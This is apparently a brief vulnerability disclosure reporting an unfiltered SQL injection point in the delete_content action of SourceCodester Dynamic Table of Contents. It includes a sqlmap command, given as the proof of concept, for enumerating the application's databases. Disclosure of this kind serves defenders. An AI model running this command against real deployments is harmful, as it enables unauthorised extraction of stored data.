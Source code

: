 # Summary
There is a sql injection vulnerability in SourceCodester Dynamic Table of Contents `/ajax-api.php?action=delete_count`. 

# Details
Although `view_content` has an is_numeric that is not easy to inject, `delete_content` has no filtering:
![image](https://github.com/user-attachments/assets/30b53243-13e3-489f-88f2-bbbf7faba852)

We can use `sqlmap` to get all the data in the database:
```bash
sqlmap -r post.txt --dbs --batch
```

![image](https://github.com/user-attachments/assets/4e957212-5220-4aca-a95a-dabb28bd9192)

Complete process:
![d-toc-sqli1](https://github.com/user-attachments/assets/e4426cfb-49e1-4fe9-ab10-f325cd87ffa4)

# PoC
```bash
sqlmap -r post.txt --dbs --batch
```

![d-toc-sqli1](https://github.com/user-attachments/assets/e4426cfb-49e1-4fe9-ab10-f325cd87ffa4)
